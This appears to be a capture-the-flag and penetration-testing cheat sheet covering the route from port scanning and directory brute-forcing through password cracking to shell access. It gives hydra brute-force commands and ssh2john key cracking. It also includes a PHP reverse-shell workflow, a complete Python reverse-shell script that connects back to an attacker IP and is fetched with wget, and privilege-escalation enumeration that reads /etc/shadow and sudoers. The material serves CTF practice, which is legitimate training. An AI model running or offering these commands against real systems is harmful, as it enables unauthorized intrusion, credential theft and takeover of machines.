 # SCANNING
> First of all, let's scan the open ports and their versions.

```
nmap -A -p- -T4 [Target IP Address] -oN [../nmapresult.txt]
```
> How many ports open?
```
nmap -p- -vvv [Target IP Address]
```
> What vulnerabilities exist in this machine?
```
nmap -p- --script vuln [Target IP Address]
```
<br>
<br>

> If Apache2 or any web server is running;
> First, let's find the folders on the server.

```
dirb http://[Target IP Address]
```
> Or let's try alternative scanning methods.

```
gobuster dir -u http://[Target IP Address] -w [../dirbuster/wordlist.txt]
gobuster dir -u http://[Target IP Address] -w [../dirbuster/wordlist.txt] -x [.extension]
nikto -h [Target IP Address]
```
> After the scans are completed, the web server (if any) is visited and all information is collected:
<br>

# BRUTE FORCE
> Let's try to crack the usernames we found with a brute force attack.

```
hydra -l [Username We Found] -P [../wordlist.txt] [Whichever Port is Open]://[Target IP Address] -t 64
hydra -l [Username We Found] -P [../wordlist.txt] http-post-form "[HTTP Post Form]" -v
hydra -L [../Userlist.txt] -P [../wordlist.txt] [Target IP Address] [Whichever Port is Open]://[Target IP Address]
```
> For example:

```
hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 64
hydra -l james -P /home/kali/Downloads/givenbyctf.txt http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -v
hydra -L /home/kali/Documents/CTF's/attactive-directory/userlist.txt -P /usr/share/wordlists/fasttrack.txt 10.10.10.10 ssh://10.10.10.10
```
<br>
<br>

> If WordPress:
```
wpscan --url [Target IP Address] --passwords [../wordlist.txt] --usernames [Admin Username]
```
> If we see something encrypted:
```
john [../hash.txt] --wordlist=[../wordlist.txt]
john --format=[Format of the Hash] [../hash.txt]
```
> If something is hidden inside the image file (like steganography):
```
strings [../file.png]
stegcracker [../file.jpg] [../wordlist.txt]
steghide extract -sf [../file.jpg]
binwalk [../file.jpg]
binwalk --run-as=root [../file.jpg] -e
```
> If we haven't made much progress with the brute force attack, but we have an id_rsa:
<br>

# GAINING ACCESS TO LINUX WITH RSA PRIVATE KEY
> For SSH key to work:
```
chmod 600 [Key]
```
> Connection with SSH key:
```
ssh [Username]@[Target IP Address] -i [Key]
```
> If it asks us for a password:
```
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=[../wordlist.txt]
```
> And, repeat the above.
> If there is still no gaining access, we can try a pHp reverse shell on the web server.
<br>

# PHP REVERSE SHELL
> First, open the php document. (If you search for this php file as php-reverse-shell, you will see many examples.)
```
nano ../php-reverse-shell.php
```
> And edit the file. If you see "change $ip= " in the file, enter your own machine's IP address there. If you are connected to sites such as tryhackme via VPN, enter the IP address you are connected to.
> Let's open another terminal on us own machine and start listening to the port written in the php-reverse-shell.php file:
```
nc -nvlp [Port]
```
> Run php-reverse-shell.php on the website. For example:
```
http://[Target Website]/uploads/php-reverse-shell.php
```
> If we have gained access to the port we are listening to via Netcat, but the Linux commands we are used to are not working, let's check whether this is Python.
```
print("cozuxhub")
```
> If we have seen any text we wrote in the print command as output, it is time to open a shell:
<br>

# PYTHON SHELL
> To open terminal:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> If it doesn't work, do this first:
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
> Or, create a document.py in the /var/www/html on your machine and type this:
```
        import socket
        import subprocess
        import os

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.0.2.4",5555))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"])
```
> We first need to start the Apache2 server on we own machine.
```
service apache2 start
```
> Go to target machine and copy this file from we apache2 server.
```
wget http://[Your IP Address]/[document.py]
```
> Let's run this python file on our target machine.
```
python document.py
/usr/bin/python document.py
```
> If we are now a user on the target machine but do not have sufficient privileges, next is privilege escalation.
<br>

# LINUX PRIVILEGE ESCALATION
> First of all, get informaton from the machine.
```
whoami
id
uname -a
cat /proc/version
cat /etc/issue
cat /etc/shadow
cat /etc/passwd
cat /etc/sudoers
cat /etc/crontab
ps aux
ifconfig
locate password
find / -name password 2>/dev/null
find . type f -exec grep -i -I "PASSWORD" {} /dev/null \;
find / -type f -perm -04000 -ls 2>/dev/null
```
<br>
<br>

> Shows the commands of the user before you:
```
history
```
> Shows what the current user can do:
```
find / -perm -u=s -type f 2>/dev/null
```
> Shows the commands:
```
ls -la /usr/bin
```
> Let's see which commands can run without root:
```
sudo -l
find / -type f -perm -04000 -ls 2>/dev/null
```
<br>
<br>

> From here, we are likely to encounter thousands of possibilities. Since each machine has a different vulnerability, we must do our own research after the basic operations.
